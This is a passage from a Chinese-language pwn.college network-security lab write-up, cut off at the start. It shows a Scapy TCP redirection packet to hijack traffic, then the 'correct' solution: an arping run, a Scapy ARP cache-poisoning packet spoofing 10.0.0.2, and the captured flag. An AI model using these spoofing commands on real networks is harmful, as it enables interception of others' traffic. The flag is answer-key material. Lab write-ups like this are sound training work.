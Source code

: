 ```10.0.0.2

# 构造 TCP 重定向数据包，将流量重定向到本地主机
tcp_redirect = Ether(src=remote_mac, dst=local_mac) / IP(src="10.0.0.2", dst=local_ip) / TCP(sport=31337, dport=31337, flags="PA", seq=123456, ack=0)

# 发送 TCP 重定向数据包，劫持流量
sendp(tcp_redirect, iface="eth0")
```
**好吧，整了一大堆，然后发现搞错了，没那么复杂，G。。。**

正确解答如下：
```
root@ip-10-0-0-3:~# arping 10.0.0.4
ARPING 10.0.0.4
42 bytes from ce:b6:65:76:0a:83 (10.0.0.4): index=0 time=17.107 usec
42 bytes from ce:b6:65:76:0a:83 (10.0.0.4): index=1 time=13.761 usec
^C
--- 10.0.0.4 statistics ---
2 packets transmitted, 2 packets received,   0% unanswered (0 extra)
rtt min/avg/max/std-dev = 0.014/0.015/0.017/0.002 ms
root@ip-10-0-0-3:~#

sendp(Ether(src=get_if_hwaddr("eth0"),dst="ce:b6:65:76:0a:83") / ARP(op="is-at",hwsrc=get_if_hwaddr("eth0"),psrc="10.0.0.2",hwdst="ce:b6:65:76:0a:83",pdst="10.0.0.4"),iface="eth0")

pwn.college{cNTaa8AjxVE-lSXY9DgEeXxNMHz.dFzNzMDL2QjMyMzW}
```